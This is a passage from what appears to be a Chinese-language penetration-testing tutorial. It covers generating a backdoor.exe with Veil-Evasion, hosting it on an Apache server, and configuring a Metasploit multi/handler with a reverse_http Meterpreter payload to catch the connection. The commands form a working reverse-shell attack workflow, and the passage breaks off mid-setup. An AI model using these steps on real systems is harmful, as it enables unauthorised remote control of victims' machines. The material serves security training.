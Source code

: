 
这是最重要的一步，然后我们将使用`generate`命令来生成后门，就像我们在之前的章节中做的那样，我们将把后门命名为`backdoor.exe`。按*Enter*键，这将为我们生成有效负载。有效负载的路径可以在下面的截图中看到：

![](img/c9ef009f-1eed-40f6-9380-8d78d70e7983.png)

和往常一样，我们将通过以下命令将后门复制到我们的 Apache 服务器`/var/www/html`目录中：

```
cp /var/lib/veil-evasion/ouput/complied/backdoor.exe /var/www/html
```

我们还将看到如何从网络外部下载这个后门。现在，我们只需要通过 multi-handler 监听传入的连接，我们之前在第十二章中做过这个操作，*客户端攻击*。当我们使用 multi-handler 进行监听时，我们将监听本地 IP，因此我们不会监听外部/全局 IP，我们只会监听本地 IP，因为我们不能监听外部 IP，我们只控制当前的 Kali 机器。在 Kali 机器上，我们将在端口`8080`上进行监听，而在外部设备上，后门将尝试连接到后门。接下来的步骤是，我们将设置 IP 转发，允许路由器将端口`8080`转发到 Kali 机器。但是首先我们需要在 Kali 机器上监听端口`8080`，我们将通过以下步骤使用 multi/handler 来实现：

1.  使用`msfconsole`命令打开 Metasploit 框架。

1.  我们将使用`exploit/multi/handler`，并使用以下命令：

```
use exploit/multi/handler
```

1.  将有效负载设置为`windows/meterpreter/reverse_http`：

```
set PAYLOAD windows/meterpreter/reverse_http
```

1.  接下来，我们将`LPORT`设置为`8080`：

```
set LPORT 8080
```

1.  将`LHOST`，即监听主机，设置为我们的私有 IP。我们将`LHOST`设置为`192.168.0.11`。命令如下：

```
set LHOST 192.168.0.11
```
